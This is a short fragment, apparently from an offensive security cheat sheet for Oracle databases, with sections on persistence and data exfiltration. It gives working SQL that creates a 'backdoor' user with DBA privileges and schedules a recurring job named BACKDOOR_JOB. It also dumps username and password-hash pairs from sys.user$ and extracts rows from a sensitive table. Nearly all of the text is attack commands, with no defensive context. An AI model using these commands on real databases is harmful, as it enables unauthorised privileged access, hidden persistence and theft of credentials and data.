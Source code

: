 ### Persistence Techniques
```sql
-- Create backdoor user
CREATE USER backdoor IDENTIFIED BY password;
GRANT CONNECT, RESOURCE, DBA TO backdoor;

-- Create job for persistence
BEGIN
  DBMS_SCHEDULER.CREATE_JOB(
    job_name => 'BACKDOOR_JOB',
    job_type => 'PLSQL_BLOCK',
    job_action => 'BEGIN NULL; END;',
    start_date => SYSTIMESTAMP,
    repeat_interval => 'FREQ=DAILY',
    enabled => TRUE
  );
END;
/
```

### Data Exfiltration
```sql
-- Export sensitive data
SELECT username||':'||password FROM sys.user$;

-- Large data extraction
SELECT * FROM (SELECT * FROM sensitive_table) WHERE ROWNUM <= 1000;
```
